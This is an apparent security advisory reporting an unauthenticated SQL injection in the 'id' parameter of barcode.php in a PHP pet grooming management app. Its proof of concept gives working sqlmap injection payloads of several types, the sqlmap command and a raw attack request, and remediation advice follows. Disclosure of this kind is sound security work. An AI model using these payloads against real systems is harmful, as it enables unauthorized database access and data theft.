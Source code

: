 # Pet grooming management barcode.php  sql injection

# NAME OF AFFECTED PRODUCT(S)

- Pet grooming management

## Vendor Homepage

- https://www.sourcecodester.com/php/18340/pet-grooming-management-software-download.html

# AFFECTED AND/OR FIXED VERSION(S)

## submitter

- Chenguang Wang-GuangZhou University
- Zhihong Tian-GuangZhou University

## VERSION(S)

- V1.0

## Software Link

- https://www.sourcecodester.com/download-code?nid=18340&title=Pet+grooming+management+software+download

# PROBLEM TYPE

## Vulnerability Type

- SQL injection

## Root Cause

- A SQL injection vulnerability was found in the 'barcode.php' file of the 'Pet grooming management' project. The reason for this issue is that attackers inject malicious code from the parameter "id" and use it directly in SQL queries without the need for appropriate cleaning or validation. This allows attackers to forge input values, thereby manipulating SQL queries and performing unauthorized operations.

## Impact

- Attackers can exploit this SQL injection vulnerability to achieve unauthorized database access, sensitive data leakage, data tampering, comprehensive system control, and even service interruption, posing a serious threat to system security and business continuity.

# DESCRIPTION

- During the security review of "Pet grooming management", discovered a critical SQL injection vulnerability in the "barcode.php" file. This vulnerability stems from insufficient user input validation of the 'id' parameter, allowing attackers to inject malicious SQL queries. Therefore, attackers can gain unauthorized access to databases, modify or delete data, and access sensitive information. Immediate remedial measures are needed to ensure system security and protect data integrity.

# No login or authorization is required to exploit this vulnerability

# Vulnerability details and POC

## Vulnerability type:

- time-based blind
- boolean-based blind
- error-based
- stacked queries
- UNION query

## Vulnerability location:

- 'id' parameter

## Payload:

```
Parameter: #1* ((custom) POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
    Payload: id=1' AND 6506=(SELECT (CASE WHEN (6506=6506) THEN 6506 ELSE (SELECT 1008 UNION SELECT 6846) END))-- -
    Vector: AND [RANDNUM]=(SELECT (CASE WHEN ([INFERENCE]) THEN [RANDNUM] ELSE (SELECT [RANDNUM1] UNION SELECT [RANDNUM2]) END))[GENERIC_SQL_COMMENT]

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: id=1' AND GTID_SUBSET(CONCAT(0x716a6b6271,(SELECT (ELT(9029=9029,1))),0x716b717171),9029)-- adDh
    Vector: AND GTID_SUBSET(CONCAT('[DELIMITER_START]',([QUERY]),'[DELIMITER_STOP]'),[RANDNUM])

    Type: stacked queries
    Title: MySQL >= 5.0.12 stacked queries (comment)
    Payload: id=1';SELECT SLEEP(5)#
    Vector: ;SELECT IF(([INFERENCE]),SLEEP([SLEEPTIME]),[RANDNUM])#

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1' AND (SELECT 2212 FROM (SELECT(SLEEP(5)))Zamk)-- mrOD
    Vector: AND (SELECT [RANDNUM] FROM (SELECT(SLEEP([SLEEPTIME]-(IF([INFERENCE],0,[SLEEPTIME])))))[RANDSTR])

    Type: UNION query
    Title: Generic UNION query (NULL) - 21 columns
    Payload: id=-1070' UNION ALL SELECT CONCAT(0x716a6b6271,0x67766b62736446454b7548736b786f6d4f6545576c42444c4e465477786f41686975684156534b63,0x716b717171),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -
    Vector:  UNION ALL SELECT [QUERY],NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -
```

![image-20250902111408359](img/image-20250902111408359.png)

## The following are screenshots of some specific information obtained from testing and running with the sqlmap tool:

```
python3 sqlmap.py -r data.txt --dbs -v 3 --batch --level 5
//data.txt
POST /admin/barcode.php HTTP/1.1
Host: 192.168.31.222:8883
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: UserName=test1; PassWord=16d7a4fca7442dda3ad93c9a726597e4; Bus_Booking_System=bq1kveujc3osm8re7oiikt4hhj; columns-customers_view={%22customers-fullname%22:true%2C%22customers-phone%22:true%2C%22customers-id_number%22:true}; PHPSESSID=p1oiu687ec8r1n6qnj58qo4850
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 57

id=1*
```

# Attack results

![image-20250902111434101](img/image-20250902111434101.png)

# Suggested repair



1. **Use prepared statements and parameter binding:** Preparing statements can prevent SQL injection as they separate SQL code from user input data. When using prepare statements, the value entered by the user is treated as pure data and will not be interpreted as SQL code.
2. **Input validation and filtering:** Strictly validate and filter user input data to ensure it conforms to the expected format.
3. **Minimize database user permissions:** Ensure that the account used to connect to the database has the minimum necessary permissions. Avoid using accounts with advanced permissions (such as' root 'or' admin ') for daily operations.
4. **Regular security audits:** Regularly conduct code and system security audits to promptly identify and fix potential security vulnerabilities.